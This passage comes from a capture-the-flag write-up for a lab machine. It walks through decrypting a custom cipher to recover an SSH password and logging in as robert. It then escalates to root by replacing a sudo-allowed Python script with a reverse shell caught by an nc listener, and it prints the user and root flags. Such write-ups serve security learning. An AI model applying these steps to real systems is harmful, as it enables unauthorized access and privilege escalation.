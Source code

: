 To do that with the CLI interface we provide `out.txt` as the input and
`check.txt` as the key so the resulting "encrypted" file gives us in fact the
clear text key `alexandrovich`.

Doing the same with the encrypted password and the real key we can find the
clear text of the password.

```
$ python SuperSecureCrypt.py -i out.txt -o out2.txt -k "$(cat check.txt)" -d
$ python SuperSecureCrypt.py -i passwordreminder.txt -o out2.txt -k "alexandrovich" -d
```

Robert password is `SecThruObsFTW`.

So now we can connect to ssh as robert.

```
$ ssh -v robert@10.10.10.168
...
robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```

### System Privilege Escalation : robert to root

**TL;DR**: `BetterSSH.py` command execution

It seems we can run a python script as root.

```
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

[Source code of `BetterSSH.py`](https://gist.github.com/S4CH/4cb408456318997fb62dc0ec1311c6a3#file-betterssh-py)

We can replace the script executed as root by a python reverse shell and execute it.

`robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py`

```
➜ nc -nlp 8888
root@obscure:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@obscure:~# cd /root
cd /root
root@obscure:/root# ls
ls
root.txt
root@obscure:/root# cat root.txt
cat root.txt
512fd4429f33a113a44d5acde23609e3
```
